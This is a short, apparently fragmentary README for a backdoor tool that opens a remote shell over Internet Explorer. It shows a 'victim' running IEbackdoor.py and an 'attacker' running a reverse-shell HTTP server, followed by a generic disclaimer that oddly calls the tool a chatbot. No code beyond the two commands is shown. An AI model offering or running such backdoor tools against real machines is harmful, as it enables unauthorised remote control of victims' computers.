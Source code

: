 shell over Internet Explorer


victim 
```shell C:\> python IEbackdoor.py ```



attacker 
```shell $ httpserverRshell.py ```


**Disclaimer**

This chatbot is provided for educational and informational purposes only. Use at your own risk. The author and contributors are not responsible for any damages or consequences arising from the use of this software.
